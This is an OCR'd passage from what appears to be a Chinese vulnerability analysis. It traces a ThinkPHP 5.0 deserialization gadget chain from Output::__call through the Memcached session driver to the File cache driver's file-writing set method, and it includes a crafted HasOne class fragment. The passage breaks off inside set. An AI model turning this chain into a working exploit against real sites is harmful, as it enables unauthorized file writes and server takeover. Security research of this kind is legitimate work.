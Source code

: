         class HasOne extends OneToOne
        {
            protected $query;
            protected $bindAttr = [];
            public function __construct()
            {
                $this->query = new Query();
                $this->bindAttr = ["1"=>"1"];
            }
        }
    }

然后接着看Output，在`__call`中调用block

    protected function block($style, $message)
    {
        $this->writeln("<{$style}>{$message}</$style>");
    }

继续writeln

    public function writeln($messages, $type = self::OUTPUT_NORMAL)
    {
        $this->write($messages, true, $type);
    }

write

    public function write($messages, $newline = false, $type = self::OUTPUT_NORMAL)
    {
        $this->handle->write($messages, $newline, $type);
    }

而\$this-\>handle是可控的，继续全局搜索write，寻找可控的点，找到了/thinkphp/library/think/session/driver/Memcached.php

    public function write($sessID, $sessData)
    {
        return $this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire']);
    }

这样就有找到了一个跳板set，然后继续找可以写入文件的方式，找到了/thinkphp/library/think/cache/driver/File.php

    public function set($name, $value, $expire = null)
        {
            if (is_null($expire)) {
                $expire = $this->options['expire'];
            }
            if ($expire instanceof \DateTime) {
                $expire = $expire->getTimestamp() - time();
            }
            $filename = $this->getCacheKey($name, true);
            if ($this->tag && !is_file($filename)) {
                $first = true;
            }
            $data = serialize($value);
            if ($this->options['data_compress'] && function_exists('gzcompress')) {
                //数据压缩
                $data = gzcompress($data, 3);
            }
            $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
            $result = file_put_contents($filename, $data);
            if ($result) {
                isset($first) && $this->setTagItem($filename);
                clearstatcache();
                return true;
            } else {
                return false;